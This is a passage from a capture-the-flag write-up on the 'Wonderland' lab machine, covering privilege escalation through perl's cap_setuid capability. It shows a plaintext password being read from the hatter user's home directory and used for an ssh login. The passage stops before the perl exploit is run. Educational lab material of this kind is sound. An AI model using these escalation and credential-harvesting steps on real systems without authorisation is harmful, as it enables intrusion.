 Success! We're now the `hatter` user.

## perl cap_setuid+ep

As we recall from earlier, the `hatter` account had the ability to execute the `perl` which had the `cap_setuid+ep` capability. So lets exploit it to obtain root. 

Using [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities) we can get a snippet for how to exploit `perl` with `cap_setuid+ep`.

```
hatter@wonderland:~$ perl
bash: /usr/bin/perl: Permission denied
```

Weird. We have the `hatter` account. Inspecting the user id details we can see the issue. 

```
hatter@wonderland:/usr/bin$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

Our uid is set to the `hatter`, but out group id is still set as `rabbit`. This is preventing us from using `perl` as we recall from earlier only the `root` user and `hatter` group have execute priviliedges. This is unexpected given the `setgid(0x3eb)` and `setuid(0x3eb)` function calls in the `teaParty` binary. Thankfully the `hatter` has left us their password in plaintext in their home directory. 

```
hatter@wonderland:/home/rabbit$ cd /home/hatter/

hatter@wonderland:/home/hatter$ ll
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 ./
drwxr-xr-x 6 root   root   4096 May 25  2020 ../
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local/
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt

hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

Lets connect via `ssh` using the `hatter` credentials.

```
┌──(kali㉿kali)-[~/Documents/wonderland]
└─$ ssh hatter@10.10.232.163                                                                                                                                     1 ⨯
hatter@10.10.232.163's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 18 12:08:31 UTC 2022

  System load:  0.0                Processes:           85
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.232.163
  Swap usage:   0%


0 packages can be updated.
```